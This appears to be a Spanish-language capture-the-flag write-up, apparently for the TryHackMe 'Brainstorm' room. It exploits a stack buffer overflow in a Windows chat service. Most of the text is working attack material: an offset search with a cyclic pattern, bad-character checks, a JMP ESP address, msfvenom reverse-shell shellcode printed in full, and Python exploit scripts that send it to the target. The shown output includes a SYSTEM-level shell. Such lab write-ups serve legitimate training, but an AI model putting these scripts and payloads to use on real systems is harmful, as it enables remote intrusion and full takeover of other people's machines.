4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9Dw0Dw1Dw2Dw3Dw4Dw5Dw6Dw7Dw8Dw9Dx0Dx1Dx2Dx3Dx4Dx5Dx6Dx7Dx8Dx9Dy0Dy1Dy2Dy3Dy4Dy5Dy6Dy7Dy8Dy9Dz0Dz1Dz2Dz3Dz4Dz5Dz6Dz7Dz8Dz9Ea0Ea1Ea2Ea3Ea4Ea5Ea6Ea7Ea8Ea9Eb0Eb1Eb2Eb3Eb4Eb5Eb6Eb7Eb8Eb9Ec0Ec1Ec2Ec3Ec4Ec5Ec6Ec7Ec8Ec9Ed0Ed1Ed2Ed3Ed4Ed5Ed6Ed7Ed8Ed9Ee0Ee1Ee2Ee3Ee4Ee5Ee6Ee7Ee8Ee9Ef0Ef1Ef2Ef3Ef4Ef5Ef6Ef7Ef8Ef9Eg0Eg1Eg2Eg3Eg4Eg5Eg6Eg7Eg8Eg9Eh0Eh1Eh2Eh3Eh4Eh5Eh6Eh7Eh8Eh9Ei0Ei1Ei2Ei3Ei4Ei5Ei6Ei7Ei8Ei9Ej0Ej1Ej2Ej3Ej4Ej5Ej6Ej7Ej8Ej9Ek0Ek1Ek2Ek3Ek4Ek5Ek6Ek7Ek8Ek9El0El1El2El3El4El5El6El7El8El9Em0Em1Em2Em3Em4Em5Em6Em7Em8Em9En0En1En2En3En4En5En6En7En8En9Eo0Eo1Eo2Eo3Eo4Eo5Eo6Eo7Eo8Eo9Ep0Ep1Ep2Ep3Ep4Ep5Ep6Ep7Ep8Ep9Eq0Eq1Eq2Eq3Eq4Eq5Eq6Eq7Eq8Eq9Er0Er1Er2Er3Er4Er5Er6Er7Er8Er9Es0Es1Es2Es3Es4Es5Es6Es7Es8Es9Et0Et1Et2Et3Et4Et5Et6Et7Et8Et9Eu0Eu1Eu2Eu3Eu4Eu5Eu6Eu7Eu8Eu9Ev0Ev1Ev2Ev3Ev4Ev5Ev6Ev7Ev8Ev9Ew0Ew1Ew2Ew3Ew4Ew5Ew6Ew7Ew8Ew9Ex0Ex1Ex2Ex3Ex4Ex5Ex6Ex7Ex8Ex9Ey0Ey1Ey2Ey3Ey4Ey5Ey6Ey7Ey8Ey9Ez0Ez1Ez2Ez3Ez4Ez5Ez6Ez7Ez8Ez9Fa0Fa1Fa2Fa3Fa4Fa5Fa6Fa7Fa8Fa9Fb0Fb1Fb2Fb3Fb4Fb5Fb6Fb7Fb8Fb9Fc0Fc1Fc2Fc3Fc4Fc5Fc6Fc7Fc8Fc9Fd0Fd1Fd2Fd3Fd4Fd5Fd6Fd7Fd8Fd9Fe0Fe1Fe2Fe3Fe4Fe5Fe6Fe7Fe8Fe9Ff0Ff1Ff2Ff3Ff4Ff5Ff6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4Fg5Fg6Fg7Fg8Fg9Fh0Fh1Fh2Fh3Fh4Fh5Fh6Fh7Fh8Fh9Fi0Fi1Fi2Fi3Fi4Fi5Fi6Fi7Fi8Fi9Fj0Fj1Fj2Fj3Fj4Fj5Fj6Fj7Fj8Fj9Fk0Fk1Fk2Fk3Fk4Fk5Fk6Fk7Fk8Fk9Fl0Fl1Fl2Fl3Fl4Fl5Fl6Fl7Fl8Fl9Fm0Fm1Fm2Fm3Fm4Fm5Fm6Fm7Fm8Fm9Fn0Fn1Fn2Fn3Fn4Fn5Fn6Fn7Fn8Fn9Fo0Fo1Fo2Fo3Fo4Fo5Fo6Fo7Fo8Fo9Fp0Fp1Fp2Fp3Fp4Fp5Fp6Fp7Fp8Fp9Fq0Fq1Fq2Fq3Fq4Fq5Fq6Fq7Fq8Fq9Fr0Fr1Fr2Fr3Fr4Fr5Fr6Fr7Fr8Fr9Fs0Fs1Fs2Fs3Fs4Fs5Fs6Fs7Fs8Fs9Ft0Ft1Ft2Ft3Ft4Ft5Ft6Ft7Ft8Ft9Fu0Fu1Fu2Fu3Fu4Fu5Fu6Fu7Fu8Fu9Fv0Fv1Fv2Fv3Fv4Fv5Fv6Fv7Fv8Fv9Fw0Fw1Fw2Fw3Fw4Fw5Fw6Fw7Fw8Fw9Fx0Fx1Fx2Fx3Fx4Fx5Fx6Fx7Fx8Fx9Fy0Fy1Fy2Fy3Fy4Fy5Fy6Fy7Fy8Fy9Fz0Fz1Fz2Fz3Fz4Fz5Fz6Fz7Fz8Fz9Ga0Ga1Ga2Ga3Ga4Ga5Ga6Ga7Ga8Ga9Gb0Gb1Gb2Gb3Gb4Gb5Gb6Gb7Gb8Gb9Gc0Gc1Gc2Gc3Gc4Gc5Gc6Gc7Gc8Gc9Gd0Gd1Gd2Gd3Gd4Gd5Gd6Gd7Gd8Gd9Ge0Ge1Ge2Ge3Ge4Ge5Ge6Ge7Ge8Ge9Gf0Gf1Gf2Gf3Gf4Gf5Gf6Gf7Gf8Gf9Gg0Gg1Gg2Gg3Gg4Gg5Gg6Gg7Gg8Gg9Gh0Gh1Gh2Gh3Gh4Gh5Gh6Gh7Gh8Gh9Gi0Gi1Gi2Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk
```

Enviamos con nc el mensaje



Encontramos en la de FUZZ que el cambio del EIP es `31704330`


Con esto hemos encontrado que enviado `2012` ocurre el cambio

```bash
msf-pattern_offset -l 5000 -q 31704330
[*] Exact match at offset 2012
```

Creamos Payload con python

```python
import socket
import sys

username = b"rdrgox"
message = b"A" * 2012 + b"B" * 4

try:
    print("Enviado Paylaod...")
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.159.134',9999))
    s.recv(1024)
    s.recv(1024)
    s.send(username + b'\r\n')
    s.recv(1024)
    s.send(message + b'\r\n')
    s.recv(1024)
    s.close()

except:
    print("no se puede conectar al servidor")
    sys.exit()
```

Hemos logrado controlar el EIP

```bash
python3 overflow.py
Enviado Paylaod...
```


### Shellcode

Asignación de espacio para Shellcode

modificamos nuestro payload para averiguar donde se dirigir los caracteres de C introducidos 

```python
import socket
import sys

username = b"rdrgox"
message = b"A" * 2012 + b"B" * 4 + b"C" * 200

try:
    print("Enviado Paylaod...")
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.159.134',9999))
    s.recv(1024)
    s.recv(1024)
    s.send(username + b'\r\n')
    s.recv(1024)
    s.send(message + b'\r\n')
    s.recv(1024)
    s.close()

except:
    print("no se puede conectar al servidor")
    sys.exit()
```




### Bytearrays

Generación de Bytearrays y detection de batchars

```shell
# con este comnado averiguamos donde gaurdar workingfolder
!mona config

# aca introducimos donde guardar el bytearay 
!mona config -set workingfolder C:\Users\rodrigo\Desktop\brainstorm

# geenramos bytearray
!mona bytearray

# quitar nullbyte
!mona bytearray -cpb '\x00'
```


Hemos generado el bytearray




Agregamos el badchar y enviamos el payload

```python
import socket
import sys

username = b"rdrgox"
message = b"A" * 2012 + b"B" * 4
badchars = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

try:
    print("Enviado Paylaod...")
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.159.134',9999))
    s.recv(1024)
    s.recv(1024)
    s.send(username + b'\r\n')
    s.recv(1024)
    s.send(message + badchars + b'\r\n')
    s.recv(1024)
    s.close()

except:
    print("no se puede conectar al servidor")
    sys.exit()
```

Observamos que los characters van al ESP


```bash
# buscamos donde coincida comienza el cambio del ESP
!mona compare -a 0x01A4EEC0

# buscamos la comparación
!mona compare -a 0x01A4EEC0 -f C:\Users\rodrigo\Desktop\brainstorm\bytearray.bin
```


Con esto comprobamos que no hay mas Badchars.


### OpCodes

Búsqueda de OpCodes para entrar al ESP y cargar nuestro Shellcode

ahora que no tenemos badchar debemos encontrar el punto de salto para el ESP, el cual hemos encontrado en el dll essfunc.dll `625014df`

```bash
!mona jmp -r esp -cpb "\x00" 
```


Volvemos a cargar el Immunity Buscamos el salto al ESP, y colocamos un breakpoint con F2,




Modificamos nuestro Script volvemos a correr

```bash
import socket
import sys

username = b"rdrgox"
message = b"A" * 2012 + b"\xdf\x14\x50\x62"
payload = b""

try:
    print("Enviado Paylaod...")
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.159.134',9999))
    s.recv(1024)
    s.recv(1024)
    s.send(username + b'\r\n')
    s.recv(1024)
    s.send(message + b'\r\n')
    s.recv(1024)
    s.close()

except:
    print("no se puede conectar al servidor")
    sys.exit()
```

```bash
python3 overflow.py
Enviado Paylaod...
```

Ahora debemos observar el Breakpoint que colocamos anteriormente


si volvemos a continuar, vemos que hemos logrado el salto al EIP


Generamos un payload con msfvenom

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.159.128 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1506 bytes
unsigned char buf[] = 
"\xda\xdf\xd9\x74\x24\xf4\xba\xe9\x7b\x83\xf3\x58\x31\xc9"
"\xb1\x52\x31\x50\x17\x83\xc0\x04\x03\xb9\x68\x61\x06\xc5"
"\x67\xe7\xe9\x35\x78\x88\x60\xd0\x49\x88\x17\x91\xfa\x38"
"\x53\xf7\xf6\xb3\x31\xe3\x8d\xb6\x9d\x04\x25\x7c\xf8\x2b"
"\xb6\x2d\x38\x2a\x34\x2c\x6d\x8c\x05\xff\x60\xcd\x42\xe2"
"\x89\x9f\x1b\x68\x3f\x0f\x2f\x24\xfc\xa4\x63\xa8\x84\x59"
"\x33\xcb\xa5\xcc\x4f\x92\x65\xef\x9c\xae\x2f\xf7\xc1\x8b"
"\xe6\x8c\x32\x67\xf9\x44\x0b\x88\x56\xa9\xa3\x7b\xa6\xee"
"\x04\x64\xdd\x06\x77\x19\xe6\xdd\x05\xc5\x63\xc5\xae\x8e"
"\xd4\x21\x4e\x42\x82\xa2\x5c\x2f\xc0\xec\x40\xae\x05\x87"
"\x7d\x3b\xa8\x47\xf4\x7f\x8f\x43\x5c\xdb\xae\xd2\x38\x8a"
"\xcf\x04\xe3\x73\x6a\x4f\x0e\x67\x07\x12\x47\x44\x2a\xac"
"\x97\xc2\x3d\xdf\xa5\x4d\x96\x77\x86\x06\x30\x80\xe9\x3c"
"\x84\x1e\x14\xbf\xf5\x37\xd3\xeb\xa5\x2f\xf2\x93\x2d\xaf"
"\xfb\x41\xe1\xff\x53\x3a\x42\xaf\x13\xea\x2a\xa5\x9b\xd5"
"\x4b\xc6\x71\x7e\xe1\x3d\x12\x41\x5e\xa2\x62\x29\x9d\xdc"
"\x73\xf6\x28\x3a\x19\x16\x7d\x95\xb6\x8f\x24\x6d\x26\x4f"
"\xf3\x08\x68\xdb\xf0\xed\x27\x2c\x7c\xfd\xd0\xdc\xcb\x5f"
"\x76\xe2\xe1\xf7\x14\x71\x6e\x07\x52\x6a\x39\x50\x33\x5c"
"\x30\x34\xa9\xc7\xea\x2a\x30\x91\xd5\xee\xef\x62\xdb\xef"
"\x62\xde\xff\xff\xba\xdf\xbb\xab\x12\xb6\x15\x05\xd5\x60"
"\xd4\xff\x8f\xdf\xbe\x97\x56\x2c\x01\xe1\x56\x79\xf7\x0d"
"\xe6\xd4\x4e\x32\xc7\xb0\x46\x4b\x35\x21\xa8\x86\xfd\x41"
"\x4b\x02\x08\xea\xd2\xc7\xb1\x77\xe5\x32\xf5\x81\x66\xb6"
"\x86\x75\x76\xb3\x83\x32\x30\x28\xfe\x2b\xd5\x4e\xad\x4c"
"\xfc";
```

Modificamos nuestro Script de python nuevamente

```python
import socket
import sys

username = b"rdrgox"
message = b"A" * 2012 + b"\xdf\x14\x50\x62" + b"\x90" * 32
payload = (b"\xda\xdf\xd9\x74\x24\xf4\xba\xe9\x7b\x83\xf3\x58\x31\xc9"
b"\xb1\x52\x31\x50\x17\x83\xc0\x04\x03\xb9\x68\x61\x06\xc5"
b"\x67\xe7\xe9\x35\x78\x88\x60\xd0\x49\x88\x17\x91\xfa\x38"
b"\x53\xf7\xf6\xb3\x31\xe3\x8d\xb6\x9d\x04\x25\x7c\xf8\x2b"
b"\xb6\x2d\x38\x2a\x34\x2c\x6d\x8c\x05\xff\x60\xcd\x42\xe2"
b"\x89\x9f\x1b\x68\x3f\x0f\x2f\x24\xfc\xa4\x63\xa8\x84\x59"
b"\x33\xcb\xa5\xcc\x4f\x92\x65\xef\x9c\xae\x2f\xf7\xc1\x8b"
b"\xe6\x8c\x32\x67\xf9\x44\x0b\x88\x56\xa9\xa3\x7b\xa6\xee"
b"\x04\x64\xdd\x06\x77\x19\xe6\xdd\x05\xc5\x63\xc5\xae\x8e"
b"\xd4\x21\x4e\x42\x82\xa2\x5c\x2f\xc0\xec\x40\xae\x05\x87"
b"\x7d\x3b\xa8\x47\xf4\x7f\x8f\x43\x5c\xdb\xae\xd2\x38\x8a"
b"\xcf\x04\xe3\x73\x6a\x4f\x0e\x67\x07\x12\x47\x44\x2a\xac"
b"\x97\xc2\x3d\xdf\xa5\x4d\x96\x77\x86\x06\x30\x80\xe9\x3c"
b"\x84\x1e\x14\xbf\xf5\x37\xd3\xeb\xa5\x2f\xf2\x93\x2d\xaf"
b"\xfb\x41\xe1\xff\x53\x3a\x42\xaf\x13\xea\x2a\xa5\x9b\xd5"
b"\x4b\xc6\x71\x7e\xe1\x3d\x12\x41\x5e\xa2\x62\x29\x9d\xdc"
b"\x73\xf6\x28\x3a\x19\x16\x7d\x95\xb6\x8f\x24\x6d\x26\x4f"
b"\xf3\x08\x68\xdb\xf0\xed\x27\x2c\x7c\xfd\xd0\xdc\xcb\x5f"
b"\x76\xe2\xe1\xf7\x14\x71\x6e\x07\x52\x6a\x39\x50\x33\x5c"
b"\x30\x34\xa9\xc7\xea\x2a\x30\x91\xd5\xee\xef\x62\xdb\xef"
b"\x62\xde\xff\xff\xba\xdf\xbb\xab\x12\xb6\x15\x05\xd5\x60"
b"\xd4\xff\x8f\xdf\xbe\x97\x56\x2c\x01\xe1\x56\x79\xf7\x0d"
b"\xe6\xd4\x4e\x32\xc7\xb0\x46\x4b\x35\x21\xa8\x86\xfd\x41"
b"\x4b\x02\x08\xea\xd2\xc7\xb1\x77\xe5\x32\xf5\x81\x66\xb6"
b"\x86\x75\x76\xb3\x83\x32\x30\x28\xfe\x2b\xd5\x4e\xad\x4c"
b"\xfc")

try:
    print("Enviado Paylaod...")
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.159.134',9999))
    s.recv(1024)
    s.recv(1024)
    s.send(username + b'\r\n')
    s.recv(1024)
    s.send(message + payload + b'\r\n')
    s.recv(1024)
    s.close()

except:
    print("no se puede conectar al servidor")
    sys.exit()                    
```

Nos ponemos en escucha con nc y ejecutamos el Script, hemos logrado el acceso a la maquina

```bash
python3 overflow.py 
Enviado Paylaod...
```

```bash
nc -nvlp 4444 
listening on [any] 4444 ...
connect to [192.168.159.128] from (UNKNOWN) [192.168.159.134] 49334
Microsoft Windows [Versi�n 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. Reservados todos los derechos.

C:\Users\rodrigo\Desktop\brainstorm>whoami
whoami
win-vd633hun67h\rodrigo

C:\Users\rodrigo\Desktop\brainstorm>ipconfig
ipconfig

Configuraci�n IP de Windows


Adaptador de Ethernet Conexi�n de �rea local:

   Sufijo DNS espec�fico para la conexi�n. . : localdomain
   V�nculo: direcci�n IPv6 local. . . : fe80::d4eb:1935:6bfd:2c60%11
   Direcci�n IPv4. . . . . . . . . . . . . . : 192.168.159.134
   M�scara de subred . . . . . . . . . . . . : 255.255.255.0
   Puerta de enlace predeterminada . . . . . : 192.168.159.2

Adaptador de t�nel isatap.localdomain:

   Estado de los medios. . . . . . . . . . . : medios desconectados
   Sufijo DNS espec�fico para la conexi�n. . : localdomain

C:\Users\rodrigo\Desktop\brainstorm>
```

## Exploit

Ahora probamos el Script en nuestra máquina de THM

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.244.36 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1506 bytes
unsigned char buf[] = 
"\xda\xdf\xd9\x74\x24\xf4\xba\xe9\x7b\x83\xf3\x58\x31\xc9"
"\xb1\x52\x31\x50\x17\x83\xc0\x04\x03\xb9\x68\x61\x06\xc5"
"\x67\xe7\xe9\x35\x78\x88\x60\xd0\x49\x88\x17\x91\xfa\x38"
"\x53\xf7\xf6\xb3\x31\xe3\x8d\xb6\x9d\x04\x25\x7c\xf8\x2b"
"\xb6\x2d\x38\x2a\x34\x2c\x6d\x8c\x05\xff\x60\xcd\x42\xe2"
"\x89\x9f\x1b\x68\x3f\x0f\x2f\x24\xfc\xa4\x63\xa8\x84\x59"
"\x33\xcb\xa5\xcc\x4f\x92\x65\xef\x9c\xae\x2f\xf7\xc1\x8b"
"\xe6\x8c\x32\x67\xf9\x44\x0b\x88\x56\xa9\xa3\x7b\xa6\xee"
"\x04\x64\xdd\x06\x77\x19\xe6\xdd\x05\xc5\x63\xc5\xae\x8e"
"\xd4\x21\x4e\x42\x82\xa2\x5c\x2f\xc0\xec\x40\xae\x05\x87"
"\x7d\x3b\xa8\x47\xf4\x7f\x8f\x43\x5c\xdb\xae\xd2\x38\x8a"
"\xcf\x04\xe3\x73\x6a\x4f\x0e\x67\x07\x12\x47\x44\x2a\xac"
"\x97\xc2\x3d\xdf\xa5\x4d\x96\x77\x86\x06\x30\x80\xe9\x3c"
"\x84\x1e\x14\xbf\xf5\x37\xd3\xeb\xa5\x2f\xf2\x93\x2d\xaf"
"\xfb\x41\xe1\xff\x53\x3a\x42\xaf\x13\xea\x2a\xa5\x9b\xd5"
"\x4b\xc6\x71\x7e\xe1\x3d\x12\x41\x5e\xa2\x62\x29\x9d\xdc"
"\x73\xf6\x28\x3a\x19\x16\x7d\x95\xb6\x8f\x24\x6d\x26\x4f"
"\xf3\x08\x68\xdb\xf0\xed\x27\x2c\x7c\xfd\xd0\xdc\xcb\x5f"
"\x76\xe2\xe1\xf7\x14\x71\x6e\x07\x52\x6a\x39\x50\x33\x5c"
"\x30\x34\xa9\xc7\xea\x2a\x30\x91\xd5\xee\xef\x62\xdb\xef"
"\x62\xde\xff\xff\xba\xdf\xbb\xab\x12\xb6\x15\x05\xd5\x60"
"\xd4\xff\x8f\xdf\xbe\x97\x56\x2c\x01\xe1\x56\x79\xf7\x0d"
"\xe6\xd4\x4e\x32\xc7\xb0\x46\x4b\x35\x21\xa8\x86\xfd\x41"
"\x4b\x02\x08\xea\xd2\xc7\xb1\x77\xe5\x32\xf5\x81\x66\xb6"
"\x86\x75\x76\xb3\x83\x32\x30\x28\xfe\x2b\xd5\x4e\xad\x4c"
"\xfc";
```


```python
import socket
import sys

username = b"rdrgox"
message = b"A" * 2012 + b"\xdf\x14\x50\x62" + b"\x90" * 32
payload = (b"\xda\xdf\xd9\x74\x24\xf4\xba\xe9\x7b\x83\xf3\x58\x31\xc9"
b"\xb1\x52\x31\x50\x17\x83\xc0\x04\x03\xb9\x68\x61\x06\xc5"
b"\x67\xe7\xe9\x35\x78\x88\x60\xd0\x49\x88\x17\x91\xfa\x38"
b"\x53\xf7\xf6\xb3\x31\xe3\x8d\xb6\x9d\x04\x25\x7c\xf8\x2b"
b"\xb6\x2d\x38\x2a\x34\x2c\x6d\x8c\x05\xff\x60\xcd\x42\xe2"
b"\x89\x9f\x1b\x68\x3f\x0f\x2f\x24\xfc\xa4\x63\xa8\x84\x59"
b"\x33\xcb\xa5\xcc\x4f\x92\x65\xef\x9c\xae\x2f\xf7\xc1\x8b"
b"\xe6\x8c\x32\x67\xf9\x44\x0b\x88\x56\xa9\xa3\x7b\xa6\xee"
b"\x04\x64\xdd\x06\x77\x19\xe6\xdd\x05\xc5\x63\xc5\xae\x8e"
b"\xd4\x21\x4e\x42\x82\xa2\x5c\x2f\xc0\xec\x40\xae\x05\x87"
b"\x7d\x3b\xa8\x47\xf4\x7f\x8f\x43\x5c\xdb\xae\xd2\x38\x8a"
b"\xcf\x04\xe3\x73\x6a\x4f\x0e\x67\x07\x12\x47\x44\x2a\xac"
b"\x97\xc2\x3d\xdf\xa5\x4d\x96\x77\x86\x06\x30\x80\xe9\x3c"
b"\x84\x1e\x14\xbf\xf5\x37\xd3\xeb\xa5\x2f\xf2\x93\x2d\xaf"
b"\xfb\x41\xe1\xff\x53\x3a\x42\xaf\x13\xea\x2a\xa5\x9b\xd5"
b"\x4b\xc6\x71\x7e\xe1\x3d\x12\x41\x5e\xa2\x62\x29\x9d\xdc"
b"\x73\xf6\x28\x3a\x19\x16\x7d\x95\xb6\x8f\x24\x6d\x26\x4f"
b"\xf3\x08\x68\xdb\xf0\xed\x27\x2c\x7c\xfd\xd0\xdc\xcb\x5f"
b"\x76\xe2\xe1\xf7\x14\x71\x6e\x07\x52\x6a\x39\x50\x33\x5c"
b"\x30\x34\xa9\xc7\xea\x2a\x30\x91\xd5\xee\xef\x62\xdb\xef"
b"\x62\xde\xff\xff\xba\xdf\xbb\xab\x12\xb6\x15\x05\xd5\x60"
b"\xd4\xff\x8f\xdf\xbe\x97\x56\x2c\x01\xe1\x56\x79\xf7\x0d"
b"\xe6\xd4\x4e\x32\xc7\xb0\x46\x4b\x35\x21\xa8\x86\xfd\x41"
b"\x4b\x02\x08\xea\xd2\xc7\xb1\x77\xe5\x32\xf5\x81\x66\xb6"
b"\x86\x75\x76\xb3\x83\x32\x30\x28\xfe\x2b\xd5\x4e\xad\x4c"
b"\xfc")

try:
    print("Enviado Paylaod...")
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('10.201.14.163',9999))
    s.recv(1024)
    s.recv(1024)
    s.send(username + b'\r\n')
    s.recv(1024)
    s.send(message + payload + b'\r\n')
    s.recv(1024)
    s.close()

except:
    print("no se puede conectar al servidor")
    sys.exit()                    
```

nos ponemos en escucha con nc

```shell
nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.9.244.36] from (UNKNOWN) [10.201.14.163] 54229
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```


